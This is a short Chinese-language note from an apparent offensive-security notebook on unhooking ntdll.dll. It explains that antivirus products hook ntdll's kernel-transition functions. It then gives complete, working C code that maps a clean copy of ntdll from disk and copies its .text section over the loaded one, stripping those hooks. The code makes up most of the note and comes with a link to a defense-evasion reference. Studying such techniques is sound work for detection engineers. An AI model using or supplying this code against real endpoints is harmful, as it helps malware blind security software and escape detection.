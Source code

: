 # 重新加载.text节拖钩

## 简介

以前简单介绍过[inline hook](../persistence/detous-inline-hook.md)，杀软会对ntdll进入内核的函数进行挂钩，从而实现检测和阻止，这篇文章主要是对实现过程中遇到的一些小坑进行记录，mantvydasb师傅已经对这种技术有详尽的解释，并没有什么特别复杂的操作，只是把ntdll的.text\(代码节\)进行了读取覆盖。

![](../.gitbook/assets/image%20%28191%29.png)

## 流程

1. 读取ntdll进内存
2. 读取覆盖.text节

## 代码

代码是对mantvydasb师傅拙劣的模仿（直接抄233）。

ps:使用MapViewOfFile读取文件会直接在内存里展开。

```text
#include <Windows.h>
#include <psapi.h>

int main()
{
	MODULEINFO mInfo = { 0 };
	HANDLE hProcess = GetCurrentProcess();

	//get address of ntdll in virtual memory 
	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	GetModuleInformation(hProcess, hNtdll, &mInfo, sizeof(mInfo));
	LPVOID lpNtdllbase = (LPVOID)mInfo.lpBaseOfDll;
	
	HANDLE hNtdllfile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE hNtdllMapping = CreateFileMapping(hNtdllfile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID lpNtdllmaping = MapViewOfFile(hNtdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER pDosheader = (PIMAGE_DOS_HEADER)lpNtdllbase;
	PIMAGE_NT_HEADERS pNtheader = (PIMAGE_NT_HEADERS)((DWORD_PTR)lpNtdllbase + pDosheader->e_lfanew);

	for (WORD i = 0; i < pNtheader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionheader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(pNtheader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

		if (!strcmp((char*)pSectionheader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), (LPVOID)((DWORD_PTR)lpNtdllmaping + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)lpNtdllbase + (DWORD_PTR)pSectionheader->VirtualAddress), pSectionheader->Misc.VirtualSize, oldProtection, NULL);
		}
	}

	CloseHandle(hProcess);
	CloseHandle(hNtdllfile);
	CloseHandle(lpNtdllmaping);
	FreeLibrary(hNtdll);

	return 0;
}
```

## LINKS

{% embed url="https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++" %}



